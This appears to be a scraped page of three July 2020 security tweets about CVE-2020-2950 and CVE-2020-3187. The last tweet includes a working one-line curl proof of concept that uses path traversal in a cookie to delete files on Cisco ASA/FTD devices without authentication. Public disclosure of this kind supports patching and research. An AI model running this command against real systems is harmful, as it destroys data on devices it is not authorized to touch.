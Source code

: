 
# peterjson
**https://twitter.com/peterjson/status/1286933921385480192 _at 2020-07-25, 07:58:51_**
<blockquote>
Recently I found a gadget chain that can turn AMF deserialize into Java Deserialize to exploit CVE-2020-2950 in a reliable way that can read cmd's output via HTTP Response !

https://t.co/y3d6jV1a1x
</blockquote>

* https://medium.com/@peterjson/cve-2020-2950-turning-amf-deserialize-bug-to-java-deserialize-bug-2984a8542b6f

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1286868630194528256 _at 2020-07-25, 03:39:24_**
<blockquote>
RT @aboul3la: Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

E…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# aboul3la
**https://twitter.com/aboul3la/status/1286809567989575685 _at 2020-07-24, 23:44:43_**
<blockquote>
Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

Example to delete logo file "/+CSCOU+/csco_logo.gif".

POC:
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://target/+CSCOE+/session_password.html https://t.co/BFbDAI9mX2
</blockquote>
